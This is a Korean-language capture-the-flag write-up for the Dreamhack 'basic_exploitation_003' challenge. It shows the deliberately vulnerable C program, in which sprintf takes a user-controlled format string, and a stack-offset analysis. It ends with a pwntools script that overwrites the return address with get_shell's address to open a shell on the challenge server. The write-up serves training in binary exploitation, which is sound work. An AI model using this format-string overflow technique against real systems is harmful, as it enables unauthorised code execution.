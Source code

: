 # Exercise: basic_exploitation_003

**실습 환경**

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

**basic_exploitation_003.c 코드**

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```

<br>

**코드 분석**   

여기도 전 문제랑 비슷하게 `get_shell` 함수가 있으니 목적지는 정해져있고, 조금 다른 점은 동적 할당으로 받은 뒤에 다시 스택으로 옮기고 `printf`한다는 차이점이 있다.  

그럼 덮어도 다시 호출되지가 않으니까 그냥 스택의 리턴 주소에 값을 덮어버리자  

**동적 분석**

ret이 실행되기 전에 대충 브레이크를 걸고 AAAAAAAA 같은 아무 문자열을 넣어줬다.  


<img width="940" height="210" alt="image" src="https://github.com/user-attachments/assets/92e4c9e6-a928-43c5-9e1b-656eeab90a30" />



그러고 보면 `esp+0x98` 에 ebp가 있고 `ebp+4`에 리턴 주소가 있는게 보인다.  
즉 `esp+0x9c`에 리턴 주소가 있다는 뜻이니 그 거리만큼 길이 뒤에 `get_shell` 함수의 주소를 적어두면 `sprintf`가 알아서 복사해서 `printf`에게 전해줄 것이다.   

<br>

**익스플로잇 코드**  
 
```python
from pwn import *

#p = process('./basic_exploitation_003')
p = remote('host3.dreamhack.games', 9104)
e = ELF('./basic_exploitation_003')

get_shell = e.symbols['get_shell']

l = 0x9c
payload = f"%{l}c".encode() + p32(get_shell)

p.sendline(payload)

p.interactive()
```

바로 서버에 날려보면  

<img width="743" height="326" alt="image" src="https://github.com/user-attachments/assets/e9ea6017-4e8f-4b89-bb48-118b0566d8c7" />

잘 나온다.  
